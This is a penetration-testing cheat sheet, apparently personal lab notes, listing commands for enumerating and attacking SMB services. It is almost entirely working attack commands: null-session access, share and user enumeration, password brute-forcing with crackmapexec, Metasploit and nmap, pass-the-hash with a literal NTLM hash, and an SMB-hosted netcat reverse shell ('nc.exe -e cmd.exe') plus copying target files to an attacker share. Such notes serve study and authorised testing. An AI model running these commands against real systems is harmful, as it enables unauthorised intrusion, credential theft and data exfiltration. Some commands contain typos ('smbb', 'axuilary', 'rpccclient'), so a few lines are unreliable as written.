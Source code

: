 




# enumerating SMB 
```bash

# smbclient
smbclient -L //$IP/ ##to check for directories without logging in 
smbclient //$IP/Directory # login without auth
echo exit | smbclient -L \\\\[ip]
smbclient \\\\[ip]\\[share name]
smbclient -U '<user>%<password>' \\\\10.10.10.10\\new-site

# flags
-L # list
-U # user
-U '' # Null auth
-N # no pass
-U # Username
get flag_1 - # read file

# Others

Enumerate Hostname : nmblookup -A [ip] 

nmap --script smb-enum-shares -p 139,445 [ip] # Or smbb-enum-users

nmap --script smb-vuln* -p 139,445 [ip] # Check for Vulnerabilities - 

nmap --script smb-protocols -p 139,445 [ip] # Check for Vulnerabilities - 

smbmap -H [ip/hostname]

smbmap -u guest -p "" -d . -H IP


smbmap -H [ip/hostname]

Overall Scan - enum4linux -a [ip] 

smbver.sh [IP] (port) [Samba] # Manual Inspection
nmblookup -A <Target IP>
rpccclient -U "" -N IP
# Inside rpc
srvinfo # check info about target
enumdomusers # check users
lookupnames NAME # check for user 
enumdomgroups

# pass hash
smbclient.py -hashes aad3b435b51404eeaad3b435b51404ee:2b73e1a325df8ca7bd82063457391964 cs.org/Administrador@192.168.200.129

```

## Password policy enum

```
crackmapexec smb 10.129.95.210 --pass-pol 
crackmapexec smb 10.129.95.210 --pass-pol -u  '' -p '' ##null login
crackmapexec smb 10.129.95.210 --pass-pol -u 'USER' -p 'PASS'
```




# SMB server

```bash
smbserver.py NAME $(pwd) -smb2support -user USER -password password # share current directory with the name NAME
smbserver.py share DIRECTORY # Start Smbserver named share with no creds
```
## windows
```


# Connect back to smb server (Windows)

\\IP\SHARE\nc.exe -e cmd.exe IP PORT

# Send files from target to our smb

copy FILE \\10.10.10.10\share\
```





# Download everything in share

```
prompt off
recurse on
ls
mget *
```

# Brute-Force 

```bash
# Metasploit
use axuilary/scanner/smbb/smb_login # bruteforce 
```

# Check for shares permissions

```
smbmap -H demo.ine.local
```

# Enum4linux
```bash
enum4linux -s ~/Desktop/wordlists/100-common-passwords.txt demo.ine.local # brute force directory name

enum4linux -U <IP> # enum users

-P # Password policy
-o # OS info
-l # ldap
-a # ALL 

```




### Nmap 


```bash
nmap --script smb-vuln* -p 139,445 [ip]
nmap --script smb-enum-shares <IP>
nmap --script smb-enum-users <IP>
nmap -p445 --script smb-brute --script-args userdb=users.txt,passdb=passwords.txt <target>  
```

## samrdump.py (Impacket )
```bash
samrdump <IP>
```

# Mount share
```
# windows
mount -t cifs //10.10.10.134/backups /mnt -o user=,password= 


# flags

-t cifs # mount share in windows
/mnt # mounted dir
-o # user and pass

```

# Windows
![[Pasted image 20221123164201.png]]

This tells Windows to connect to IPC$ by using empty username and password
```powershell
NET USE \\<Target IP>\IPC$ '' /u:''
```

## Enum

```powershell
enum -S <IP>





-S # Enumurate shares
-U # enumurate users
-P # Check for password policy
```

# Nbtstat ( Windows )
![[Pasted image 20221123163002.png]]
```powershell
nbtstat -A <IP>

Unique # Only 1 Ip assigned to the machine
<00>   # Workstation 
<20>   # File share is running 

```

## NET VIEW 

![[Pasted image 20221123163219.png]]
```
NET VIEW <target IP>


## winfo
```powershell
winfo <IP> -n 

-n # Null attack
```

# Metasploit

```ruby

use auxiliary/scanner/smb/smb_version # check version

use auxiliary/scanner/smb/smb_enumusers # enumurate users 

use auxiliary/scanner/smb/smb_shares # enumurate shares 
set sharefiles true

use auxiliary/scanner/smb/smb_login # bruteforce login 
# Metasploit
use auxiliary/scanner/smb/smb2
use auxiliary/scanner/smb/smb_version
use auxiliary/scanner/smb/smb_enumshares
use auxiliary/scanner/smb/pipe_auditor 
```
